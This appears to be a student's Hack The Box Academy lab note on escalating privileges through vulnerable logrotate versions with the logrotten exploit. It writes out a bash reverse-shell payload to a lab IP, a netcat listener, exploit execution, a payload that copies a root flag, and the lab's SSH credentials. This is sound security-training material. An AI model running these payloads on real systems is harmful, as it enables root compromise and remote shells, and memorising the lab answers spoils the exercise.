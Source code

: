#review
- Archives and or deletes old logs
- Pulls logs from /var/log
- Started periodically via cron
- Controlled via the configuration file /etc/logrotate.conf
- Logs can be renamed or created for each new day, older ones are automatically renamed

```
datboyblu3@htb[/htb]$ man logrotate
datboyblu3@htb[/htb]$ # or
datboyblu3@htb[/htb]$ logrotate --help

Usage: logrotate [OPTION...] <configfile>
  -d, --debug               Don't do anything, just test and print debug messages
  -f, --force               Force file rotation
  -m, --mail=command        Command to send mail (instead of '/usr/bin/mail')
  -s, --state=statefile     Path of state file
      --skip-state-lock     Do not lock the state file
  -v, --verbose             Display messages during rotation
  -l, --log=logfile         Log file or 'syslog' to log to syslog
      --version             Display version information

Help options:
  -?, --help                Show this help message
      --usage               Display brief usage message
```

### Logrotate Config File

```
datboyblu3@htb[/htb]$ cat /etc/logrotate.conf


# see "man logrotate" for details

# global options do not affect preceding include directives

# rotate log files weekly
weekly

# use the adm group by default, since this is the owning group
# of /var/log/syslog.
su root adm

# keep 4 weeks worth of backlogs
rotate 4

# create new (empty) log files after rotating old ones
create

# use date as a suffix of the rotated file
#dateext

# uncomment this if you want your log files compressed
#compress

# packages drop log rotation information into this directory
include /etc/logrotate.d

# system-specific logs may also be configured here.
```

**Logrotate Status File**
This file can be used to set a new rotation either in the status file itself or using the `-f/--force` option
```
datboyblu3@htb[/htb]$ sudo cat /var/lib/logrotate.status

/var/log/samba/log.smbd" 2022-8-3
/var/log/mysql/mysql.log" 2022-8-3
```

**Application Config Files in /etc/logrotate.d**
```
datboyblu3@htb[/htb]$ ls /etc/logrotate.d/

alternatives  apport  apt  bootlog  btmp  dpkg  mon  rsyslog  ubuntu-advantage-tools  ufw  unattended-upgrades  wtmp
```

### Requirements to Exploit
- Must be writable
- Must run as privileged user or root
- Vulnerable Versions:
	- 3.8.6
	- 3.11.0
	- 3.15.0
	- 3.18.0

### Exploit Logrotate

The example is using a prefabricated exploit called [logrotten](https://github.com/whotwagner/logrotten)

**Create Payload**
```
logger@nix02:~$ echo 'bash -i >& /dev/tcp/10.10.14.2/9001 0>&1' > payload
```

**Determine which option logrotate uses in logrotate.conf**
```
logger@nix02:~$ grep "create\|compress" /etc/logrotate.conf | grep -v "#"

create
```

This logrotate option will create a new, empty log after rotating old ones

**Start your listener**
```
datboyblu3@htb[/htb]$ nc -nlvp 9001

Listening on 0.0.0.0 9001
```

**Execute the payload with logrotten**
```
logger@nix02:~$ ./logrotten -p ./payload /tmp/tmp.log
```

## Questions

### SSH
```python
ssh htb-student@10.129.204.41
```

### Passwd
```python
HTB_@cademy_stdnt!
```

What version of logrotate is on the box and is it vulnerable?
```python
htb-student@ubuntu:~$ logrotate --version
logrotate 3.11.0
htb-student@ubuntu:~$
```
Yes it is!

### Transferring Logrotten to the target

Compress the logrotten directory like so:
```python
tar -czvf logrotten.tar.gz logrotten/
```

Now transfer the file:
```python
scp logrotten.tar.gz htb-student@10.129.204.41:/home/htb-student
htb-student@10.129.204.41's password: 
logrotten.tar.gz 
```

Compile the file
```python
gcc logrotten.c -o logrotten
```

Found log two files in `backups` directory. Which log triggers logrotate?
```python
htb-student@ubuntu:~/backups$ ls -l
total 4
-rw-r--r-- 1 htb-student htb-student  0 May 22 10:26 access.log
-rw-r--r-- 1 htb-student htb-student 91 May 22 10:26 access.log.1
```

**Find which log activates logrotate** 

..then..
```python
echo "/root/flag.txt > /home/htb-student/flag.txt" > payload
```

Then execute the payload with logrotten: Looked at the solution to get this, still don't know which access log triggers logrotate
```python
echo test >> /home/htb-student/backups/access.log; ./logrotten /home/htb-student/backups/access.log -p payload
```

